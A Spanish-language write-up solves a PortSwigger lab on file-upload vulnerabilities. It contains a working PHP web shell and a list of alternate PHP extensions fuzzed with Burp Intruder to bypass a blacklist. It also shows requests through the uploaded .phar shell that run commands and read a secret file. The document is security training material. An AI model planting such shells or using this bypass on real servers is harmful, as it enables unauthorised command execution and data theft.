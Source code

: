 ```yaml
---
title: "Web shell upload via extension blacklist bypass"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via extension blacklist bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser eludida debido a una falla fundamental en la `configuración` de esta `blacklist`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_6.png)

En Hacktricks hay una lista de extensiones que pueden interpretar código php [https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology), nos creamos una lista con estas extensiones

```
# cat extensions.txt 
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.php
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```

Mandamos la petición al intruder de Burpsuite y seleccionamos la extensión

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_7.png)

Nos vamos a Payloads, pulsamos en Load, cargamos la lista de extensiones, en la parte inferior de esta ventana desmarcamos el `Payload encoding` y pulsamos en Start attack

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_8.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_9.png)

Desde el repeater de Burpsuite he ido mandando los payloads manualmente hasta que he dado con el .phar el cual si me ha interpretado `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=whoami`, he tenido que hacerlo de esta forma porque los archivos subidos se van eliminando

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_10.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_11.png)

Obtenemos el contenido del archivo secret `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_12.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_13.png)
